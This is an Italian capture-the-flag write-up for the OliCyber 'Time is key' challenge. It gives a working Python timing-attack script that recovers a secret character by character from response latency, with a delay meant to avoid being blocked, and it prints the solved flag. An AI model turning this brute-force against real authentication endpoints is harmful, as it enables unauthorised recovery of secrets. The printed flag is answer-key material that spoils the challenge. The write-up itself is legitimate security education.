 # Writeup: Time is key

## Descrizione 📝
La challenge “Time is key” propone un sito in cui bisogna ottenere la flag nel minor tempo possibile. La particolarità è che la flag contiene solo lettere minuscole e numeri, e non segue il formato standard; pertanto, la flag deve essere racchiusa nel formato `flag{...}`.

Il sito è disponibile all’indirizzo:  
[http://time-is-key.challs.olicyber.it](http://time-is-key.challs.olicyber.it)

Per risolvere la challenge, è stato sviluppato uno script Python che sfrutta un attacco di timing. L’idea è di inviare richieste POST con possibili prefissi della flag e misurare la differenza di tempo di risposta. La risposta più lenta indica il carattere corretto per quella posizione.

## Sfruttamento 🎯

1. **Approccio**  
   Lo script testa, per ogni posizione della flag (la lunghezza complessiva è 6), tutti i possibili caratteri (solo lettere minuscole e numeri). Per ogni tentativo, viene misurato il tempo di risposta del server.  
   L’ipotesi è che il server impieghi più tempo a rispondere se il prefisso della flag è corretto.

2. **Implementazione dello Script**  
   Lo script utilizza la libreria `requests` per inviare richieste POST e `time.perf_counter()` per misurare la latenza. Per ogni posizione, lo script aggiunge un carattere candidato seguito da un padding di caratteri fittizi ('a') per raggiungere la lunghezza totale di 6.  
   
   Esempio di snippet:
   ```python
   import requests
   import time
   import string

   url = 'http://time-is-key.challs.olicyber.it/index.php'
   known_flag = ''
   headers = {'Content-Type': 'application/x-www-form-urlencoded'}

   for position in range(6):
       max_duration = 0
       correct_char = ''
       chars = string.ascii_lowercase + string.digits  # Solo lowercase e numeri

       print(f"Testando posizione {position + 1}/6")

       for c in chars:
           test_flag = known_flag + c + 'a' * (5 - position)
           total_duration = 0
           attempts = 2  # 2 tentativi per carattere

           for _ in range(attempts):
               start_time = time.perf_counter()
               try:
                   response = requests.post(url, data={'flag': test_flag}, headers=headers, timeout=7)
               except:
                   continue
               end_time = time.perf_counter()
               total_duration += (end_time - start_time)
               time.sleep(0.3)  # Delay minimo per evitare blocchi

           avg_duration = total_duration / attempts if attempts > 0 else 0

           if avg_duration > max_duration:
               max_duration = avg_duration
               correct_char = c

       known_flag += correct_char
       print(f"\nCarattere trovato: {correct_char} → Flag parziale: {known_flag}")

   print(f"\n[+] Flag completa: {known_flag}")
   ```
   Lo script stampa il carattere corretto per ogni posizione basandosi sul tempo medio di risposta.  

3. **Risultato**  
   Eseguendo lo script, si ottiene:
   ```
   [+] Flag completa: 71m1n6
   ```
   Racchiudendo la flag nel formato richiesto, la flag finale diventa:
   ```
   flag{71m1n6}
   ```

## Flag 🏁
```
flag{71m1n6}
```

## Lezioni Apprese 📚
1. **Attacchi di Timing**: Misurare il tempo di risposta del server può rivelare informazioni sensibili, come il prefisso corretto di una flag.  
2. **Automazione**: Utilizzare uno script Python per iterare su tutte le possibili combinazioni rende l’attacco efficiente e automatizzato.  
3. **Precauzioni di Rete**: L’uso di un delay minimo (0.3 secondi) è utile per evitare che il server blocchi le richieste ripetute.

## Tools Utilizzati 🛠️
- **Python (requests, time, string)**: Per implementare lo script di timing.
- **Terminale**: Per eseguire lo script e raccogliere la flag.

---

*Writeup by Luca Crippa - Last Updated: 2024*

